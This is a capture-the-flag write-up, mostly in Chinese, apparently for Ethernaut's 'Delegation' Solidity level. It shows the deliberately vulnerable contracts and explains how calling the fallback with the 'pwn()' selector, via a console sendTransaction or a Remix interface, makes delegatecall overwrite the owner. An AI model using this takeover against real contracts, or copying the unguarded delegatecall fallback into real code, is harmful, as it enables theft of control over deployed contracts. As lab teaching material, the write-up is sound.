

The goal of this level is for you to claim ownership of the instance you are given.

 Things that might help

- Look into Solidity's documentation on the `delegatecall` low level function, how it works, how it can be used to delegate operations to on-chain libraries, and what implications it has on execution scope.
- Fallback methods
- Method ids

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract Delegate {

  address public owner;

  constructor(address _owner) public {
    owner = _owner;
  }

  function pwn() public {
    owner = msg.sender;
  }
}

contract Delegation {

  address public owner;
  Delegate delegate;

  constructor(address _delegateAddress) public {
    delegate = Delegate(_delegateAddress);
    owner = msg.sender;
  }

  fallback() external {
    (bool result,) = address(delegate).delegatecall(msg.data);
    if (result) {
      this;
    }
  }
}
```


这个很明显就是触发Delegation合约中的fallback函数，delegatecall到Delegate合约中的pwn方法，因为这两个合约有相同的内存分布，所以pwn执行***owner = msg.sender***会把Delegation中的owner更新为msg.sender，也就是我们自己（player），所以要触发Delegation的fallback，执行contract.sendTransaction就行了，其中参数是根据web3js库的sendTransaction来调用的

https://web3js.readthedocs.io/en/v1.7.5/web3-eth-personal.html?highlight=sendtransaction#sendtransaction

第一种方法：在puzzle页面的console中执行下边的代码

contract.sendTransaction({data:web3.eth.abi.encodeFunctionSignature("pwn()")})


第二种方法：在remix中执行

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface Delegation {
    function pwn() external;
}
```



我们这里编写一个interface，然后从console中获得instance的地址，选择Delegation接口，点击At Address，实际上这个合约是上边Delegation，但是我们这里使其具有一个虚拟的pwn方法，如果我们点击pwn，因为实际上的Delegation合约中没有pwn方法，所以会触发fallback函数，fallback中执行delegatecall到Delegate合约中，而delegatecall中的参数就是remix帮我们构建好msg.data，所以会直接执行Delegate合约中的pwn方法，执行之后会将实际上Delegation合约中的owner更新为我们的钱包地址

注意：这里要提高Gas limit，不然会因为out of gas导致执行失败


